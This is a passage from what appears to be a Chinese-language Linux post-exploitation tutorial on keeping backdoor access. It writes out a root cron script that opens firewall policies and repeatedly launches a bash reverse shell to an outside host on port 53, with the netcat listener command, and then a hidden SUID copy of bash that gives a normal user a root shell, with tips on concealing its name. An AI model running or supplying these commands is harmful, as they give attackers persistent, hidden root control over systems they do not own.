 先创建 /etc/xxxx 脚本文件(名字自己改),利用该脚本进行反弹.以下脚本代表全自动反弹到 8.8.8.8 的 53 端口.
```vim
vim /etc/xxxx
    #!/bin/bash
    if netstat -ano|grep -v grep | grep "8.8.8.8">/dev/null
    then
    echo "OK">/dev/null
    else
    /sbin/iptables --policy INPUT ACCEPT
    /sbin/iptables --policy OUTPUT ACCEPT
    bash -i >& /dev/tcp/8.8.8.8/53 0>&1
    fi

chmod +sx /etc/xxxx
```
```vim
vim /etc/crontab
    */1 * * * * root /etc/xxxx

service cron reload #不同发行版重启方式不一样
service cron start
```

然后在 8.8.8.8 的服务器上使用 NC 接收 Shell 即可.

`nc -vv -lp 53`

**SUID shell**

首先, 先切换成为 root 用户,并执行以下的命令:
```bash
dawg:~# cp /bin/bash /.woot
dawg:~# chmod 4755 /.woot
dawg:~# ls -al /.woot
-rwsr-xr-x 1 root root 690668 Jul 24 17:14 /.woot
```
当然, 你也可以起其他更具备隐藏性的名字,我想猥琐并机智的你,肯定能想出很多好的名字的.
文件前面的那一点也不是必要的,只是为了隐藏文件( 在文件名的最前面加上".",就可以在任意文件目录下进行隐藏) .
```bash
# 现在,做为一个普通用户,我们来启用这个后门:
id
    uid=1000(fw) gid=1000(fw) groups=1000(fw)
id
    uid=1000(fw) gid=1000(fw) groups=1000(fw).woot-2.05b$
# 为什么不行呢? 因为 bash2 针对 suid 有一些护卫的措施. 但这也不是不可破的:
```
```bash
/.woot -p
id
    uid=1000(fw) gid=1000(fw) euid=0(root) groups=1000(fw)
# 使用 -p 参数来获取一个 root shell. 这个 euid 的意思是 effective user id
# 这里要特别注意的是,作为一个普通用户执行这个 SUID shell 时,一定要使用全路径.
```
如何查找那些具有 SUID 的文件: `dawg:~# find / -perm +4000 -ls` 这时就会返回具有 SUID 位的文件啦.
